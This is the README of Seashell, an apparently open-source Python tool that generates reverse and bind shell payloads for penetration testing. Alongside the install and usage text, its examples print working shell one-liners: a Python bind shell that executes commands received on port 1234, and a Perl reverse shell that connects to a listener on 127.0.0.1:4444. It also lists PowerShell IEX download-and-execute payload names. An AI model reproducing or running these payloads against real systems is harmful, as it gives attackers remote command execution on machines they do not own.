 # Seashell
Seashell is a python tool for generating shells on the go!
It uses the database of [revshells.com](https://revshells.com) and offers the same functionality. Only difference being, it's in your terminal!

# Credits
I want to thank [@0dayCTF](https://github.com/0dayCTF) and all the contributors of [reverse-shell-generator](https://github.com/0dayCTF/reverse-shell-generator) for making this project possible.

# Installation
Seashell does not use **ANY** external libraries so you can install it in seconds :D
```bash
$ git clone https://github.com/lil-skelly/seashell
[ ]
$ cd seashell && python3 -m pip install .
```

# Usage
```bash
usage: python3 -m seashell [-h] [--verbose] [-os {windows,mac,linux}] [-ip IP] [-p PORT]
                           [-shell {reverse,bind,msfvenom,hoaxshell,listeners}]
                           [-P PAYLOAD] [--interactive]
                           [term]

Seashell is a CLI 'reverse' shell generator utility. Happy hacking!

positional arguments:
  term                  Search term to filter payloads (use list to list payloads).

options:
  -h, --help            show this help message and exit
  --verbose, -V         Sets logging level to [DEBUG]
  -os {windows,mac,linux}
                        Filters results for [given] operating system
  -ip IP                Target IP
  -p PORT, --port PORT  Target port
  -shell {reverse,bind,msfvenom,hoaxshell,listeners}, -S {reverse,bind,msfvenom,hoaxshell,listeners}
                        Filters results for [given] shell type
  -P PAYLOAD, --payload PAYLOAD
                        metasploit payload to use for listener [msfconsole]
  --interactive, -i     Enables interactive mode. Any arguments besides -V will be ignored!
```
## Examples:

Seashell filters your results based on the shell type and OS specified. 

Use `list` as the search `term` on both manual and interactive mode to get a list of all the payloads available, matching the specified OS/Shell type.

If you do not find your desired payloads, it might be because the payload you are looking for is not available for *linux* systems (the default OS used by seashell). ~ Example 3

After finding the ID of the payload you desire to use, you can:
- Repeat the command and use the ID as a search term if in manual mode
- Type `use ID` if in interactive mode

Seashell will then select the appropriate payload.

- Example 1 (manual mode)
```bash
$ python -m seashell -ip localhost -p 1234 -shell bind python
[+] Welcome to the sea of shells! Happy pwning >:)
[*] Python3 Bind         70
[*] PHP Bind             71

$ python -m seashell -ip localhost -p 1234 -shell bind 70
[*] Welcome to the sea of shells! Happy pwning >:)
[+] Using <Python3 Bind>
python3 -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();
while True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```
- Example 2 (interactive mode):
```bash
$ python -m seashell -i
[+] Welcome to the sea of shells! Happy pwning >:)
~> Enter the IP: localhost
~> Specify the port (default: 4444): 
~> Filter by OS [LINUX, mac, windows]: 
~> Select payload type [REVERSE, bind, msfvenom, hoaxshell]:  
[SEARCH] perl
[*] Perl                 20
[*] Perl no sh           21
[*] curl                 13
[*] telnet               60
[SEARCH] use 21
[+] Using <Perl no sh>
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"127.0.0.1:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

- Example 3 (payload listing in manual mode)
```bash
$ python -m seashell -ip localhost -os windows -shell hoaxshell list
[+] Welcome to the sea of shells! Happy pwning >:)
[*] Windows CMD cURL     94
[*] PowerShell IEX       95
[*] PowerShell IEX Constr Lang Mode 96
[*] PowerShell Outfile   97
[*] PowerShell Outfile Constr Lang Mode 98
[*] Windows CMD cURL https 99
[*] PowerShell IEX https 100
[*] PowerShell Constr Lang Mode IEX https 101
[*] PowerShell Outfile https 102
[*] PowerShell Outfile Constr Lang Mode https 103
```
